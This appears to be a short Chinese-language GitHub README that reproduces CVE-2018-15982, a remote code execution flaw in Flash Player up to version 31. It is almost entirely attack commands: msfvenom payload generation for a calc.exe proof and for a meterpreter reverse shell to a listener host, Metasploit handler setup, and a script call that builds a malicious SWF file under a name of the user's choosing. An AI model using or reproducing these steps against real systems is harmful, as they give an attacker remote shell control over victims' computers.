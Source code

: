 # CVE-2018-15982 REC

_影响软件_
+ Flash Player

_影响版本_
+ =< 31.x


## 复现

 _生成弹计算器_
    
    msfvenom -p windows/exec cmd=calc.exe -f raw > 86.bin

    msfvenom -p windows/x64/exec cmd=calc.exe -f raw > 64.bin

    python CVE-2018-15982.py -i 86.bin -I 64.bin -o apt.swf

_生成meterpreter反弹_

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4444 -f raw > 86.bin

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=I192.168.0.104 LPORT=4444 -f raw > 64.bin
    
    
    
_Metasploit监听_
 
    msf > use exploit/multi/handler

    Msf exploit(handler) > set payload windows/meterpreter/reverse_tcp

    msf exploit(handler) > show options

    msf exploit(handler) > set lhost IP地址

    msf exploit(handler) > set lport 4444

    msf exploit(handler) > exploit

    
    
_生成exploit.SWF文件_

    python CVE-2018-15982.py -i 86.bin -I 64.bin -o 你喜欢的文件名.swf




